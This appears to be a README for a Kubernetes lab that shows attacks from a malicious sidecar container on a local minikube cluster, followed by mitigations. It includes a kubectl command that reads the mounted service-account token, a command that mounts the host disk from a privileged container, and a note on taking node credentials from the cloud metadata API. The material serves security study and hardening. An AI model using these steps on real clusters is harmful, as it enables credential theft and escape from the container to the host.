 # Attacking cluster from malicious sidecar

## Minikube setup

- Install minikube
- Start with network plugin

```bash
minikube start --network-plugin=cni --cni=calico
```

## Cluster setup

- Build the sidecar

```bash
docker build . -t malicious-sidecar
```

- Setup the cluser

```bash
kubectl apply -f cluster/
```

- Check pods are healthy with

```bash
kubectl get pods
```

- Jump to sidecar terminal with

```bash
kubectl exec --stdin --tty <insert-pod-name> -c sidecar-container -- /bin/bash
```

Or simply

```bash
kubectl get pods -l app=simple-webapp -o name | rg "pod/" -r "" | head -n 1 | xargs -o -J % kubectl exec -it % -c sidecar-container -- /bin/bash
```

## Cluster models

### Insecure cluster

- Pod-level service account
- No admission control
- Shared network interface (localhost), unblockable with NetworkPolicy
  - Kubernetes constraint, Pod is the lowest security boundary
  - Blocking this requires manual tweaking

### Secure cluster

- Automatic mounting of service account disabled, mount only where needed (or automatic default which has no permission, mount more priviledged SA where needed)
- Admission control to prevent MutatingWebhooks causing misconfigurations (automatic tools like `istioctl` use these, malicious installation could force priviledged containers?)
- Calico to block localhost ports? (network isolation)

## Attack vectors

### Kubernetes service account

- Service account in `/run/secrets/kubernetes.io/serviceaccount` (token, namespace, cert)

Running `kubectl` with the service account

```bash
kubectl --token=`cat /run/secrets/kubernetes.io/serviceaccount/token` --certificate-authority=/run/secrets/kubernetes.io/serviceaccount/ca.crt --server=https://192.168.65.4:6443 auth can-i --list
```

### Mount host (priviledged=true)

<https://www.optiv.com/insights/source-zero/blog/kubernetes-attack-surface>

Find disks from /proc folder. I found `/dev/vda1` from `/proc/mounts` file.

```bash
mount /dev/vda1 /mnt-test/
```

### Cloud metadata API, and expanding attack to other cloud services

- Get Node credentials

## Mitigations

- Own service account for sidecar
- Disallow hostNetwork, hostPID, hostIPC, privileged, host-root
- TODO:
  - Network policies (egress rules, pods should not have access to places they do not need)
  - Pod security
    - Volume whitelists (no root volumes)
    - Root limits (no priviledge, container user?)
    - AppArmor

